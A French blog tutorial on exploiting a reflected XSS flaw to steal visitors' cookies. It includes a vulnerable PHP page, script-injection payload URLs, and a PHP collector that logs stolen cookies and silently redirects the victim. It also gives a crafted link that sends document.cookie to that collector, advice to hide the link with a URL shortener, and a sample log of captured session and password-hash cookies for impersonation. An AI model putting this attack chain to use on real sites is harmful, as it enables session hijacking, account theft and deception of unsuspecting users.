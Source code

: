 ```yaml
---
layout: post
category : tutoriel
tagline: ""
tags : [latex]
---
```

{% include JB/setup %}

Des failles, on en laisse à la pelle. Pour preuve, j'en ai encore corrigé hier sur ce site et je suis convaincu qu'il en reste et qu'il en restera toujours (PS : l'utilisation d'un framework simplifie largement la sécurisation d'un site). 

Essayons d'exploiter la faille XSS pour effectuer un vol de cookie !

*****

# Repérer la faille

Le but est de trouver une page sur un site ou nous pouvons injecter du code javascript, prenons cette page par exemple :

    <?php
     
    if ( isset($_GET['message']) ) {
    	echo $_GET[message];
    } else {
    	echo '<a href="vuln.php?message=Bonjour">Dire bonjour</a>';
    }
     
    ?>

Parfait nous avons notre exemple.
Essayons de l'appeler avec quelques paramètres :

    http://127.0.0.1/microdev/xavier/hacking/vuln.php?message=%3Cscript%3Ealert(1)%3C/script%3E
	
![Faille détectée !](/assets/posts/xss1.png)

Oh la jolie alerte Il y a surement moyen de faire quelque chose avec ça !

Essayons d'aller plus loin, que pouvons nous obtenir de la page ?

    http://127.0.0.1/microdev/xavier/hacking/vuln.php?message=%3Cscript%3Ealert(document.cookie)%3C/script%3E
	
![Faille détectée !](/assets/posts/xss2.png)

Vous avez compris que ça devient intéressant !

# Préparation du piège

Notre objectif je le rappel est de voler les cookies de notre cible. A ce point nous pourrions modifier le contenu de la page en envoyant une url personnalisée à un visiteur et bien d'autres choses. 

En volant les cookies nous pourrions nous faire passé par notre victime et donc nous connecter à sa place.

Imaginons l'idée suivante, on va diriger l'utilisateur vers une page en lui prenant ses cookies au passage, puis on enregistra ses cookies et on le redirigera vers la destination de notre choix afin qu'il ne se doute de rien.

    <?php
     
    if(isset($_GET['c']) && is_string($_GET['c']) && !empty($_GET['c'])) {
     
    	$referer = $_SERVER['HTTP_REFERER'];
    	$date = date('d-m-Y \à H\hi');
    	$data = "From :   $referer\r\nDate :   $date\r\nCookie : ".htmlentities($_GET['c'])."\r\n------------------------------\r\n";
     
    	$handle = fopen('cookies.txt','a');
    	fwrite($handle, $data);
    	fclose($handle);
     
    }
     
     
    // et on envoie la cible où l'on veut pour détourner son attention ;)
    ?>
    <script language="javascript" type="text/javascript">
    	window.location.replace("http://www.plop.org");
    </script>

Pour piéger notre victime, il suffira de lui envoyer un lien de ce type :

    http://127.0.0.1/microdev/xavier/hacking/vuln.php?message=%3Cscript%3Ewindow.location.replace(%22http://127.0.0.1/microdev/xavier/hacking/volCookies.php?c=%22%2Bdocument.cookie.toString());%3C/script%3E
	
Bien sur un petit coup de tinyurl et il ne se doutera de rien !


# Résultat

Voyons si la pêche à été bonne, regardons le contenu de notre fichier texte : 

    From :   http://127.0.0.1/microdev/xavier/hacking/vuln.php?message=%3Cscript%3Ewindow.location.replace(%22http://127.0.0.1/microdev/xavier/hacking/volCookies.php?c=%22%2Bdocument.cookie.toString());%3C/script%3E
    Date :   10-10-2010 à 00h27
    Cookie : saffir_login=victime; saffir_pass=ab4f63f9ac65152575886860dde480a1; __utmz=96992031.1282937148.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); PHPSESSID=fdbceu2i112mt0j6vavr7mgp76; __utma=96992031.1472722046.1286240095.1286645182.1286656603.10; __utmc=96992031; __utmb=96992031.176.10.1286656603
    ------------------------------

Il ne nous reste qu'a remplacer nos cookies par ceux de la victime pour se faire passer pour elle, fatale.

Pour plus de détails, voir l’article sur [développez](http://julien-pauli.developpez.com/tutoriels/securite/developpement-web-securite/?page=xss).

